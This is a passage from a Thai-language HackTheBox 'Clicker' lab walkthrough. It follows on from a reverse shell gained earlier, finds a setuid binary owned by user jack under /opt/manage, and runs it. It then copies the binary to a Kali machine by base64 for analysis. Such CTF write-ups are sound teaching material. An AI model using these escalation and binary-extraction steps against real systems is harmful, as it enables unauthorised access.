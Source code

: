 เมื่อรันด้านบนเราจะได้รับ reverse shell กลับมา 
![[Challenge/HTB Challenge/Clicker/IMG/017.png]]

ให้เราตรวจสอบไฟล์ที่น่าสนใจที่สามารถรันด้วยสิทธิของ jack ซึ่งจะพบว่ามีไฟล์ที่อยู่ภายใต้ /opt/manage ซึ่งมี execute_query อยู่ โดยหากเปิด README.txt ดูจะเห็นว่าเป็นโปรแกรมที่สามารถดำเนินการเกี่ยวกับฐานข้อมูล

```bash
www-data@clicker:/opt/manage$ ls -la 
ls -la 
total 28
drwxr-xr-x 2 jack jack  4096 Jul 21  2023 .
drwxr-xr-x 3 root root  4096 Jul 20  2023 ..
-rw-rw-r-- 1 jack jack   256 Jul 21  2023 README.txt
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
www-data@clicker:/opt/manage$ cat README.txt
cat README.txt
Web application Management

Use the binary to execute the following task:
	- 1: Creates the database structure and adds user admin
	- 2: Creates fake players (better not tell anyone)
	- 3: Resets the admin password
	- 4: Deletes all users except the admin
www-data@clicker:/opt/manage$ ./execute_query 1
./execute_query 1
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
CREATE TABLE IF NOT EXISTS players(username varchar(255), nickname varchar(255), password varchar(255), role varchar(255), clicks bigint, level int, PRIMARY KEY (username))
--------------

--------------
INSERT INTO players (username, nickname, password, role, clicks, level) 
	VALUES ('admin', 'admin', 'ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82', 'Admin', 999999999999999999, 999999999)
	ON DUPLICATE KEY UPDATE username=username
--------------

www-data@clicker:/opt/manage$ 

```

จากนั้นเราจะทำการ copy file ดังกล่าวออกไปวิเคราะห์ โดยการแปลงให้เป็น base64 ก่อน แล้วนำไปสร้างไว้ใน kali 

```bash
base64 execute_query  ## Victim File 

## KALI 
vim executeB64 #copy all of it to this file 
base64 -d executeB64 > execute_query 

md5sum execute_query
# Result should be same 
f09a05ad831b9a4c7cf8cce4d7ae4b81  execute_query
```

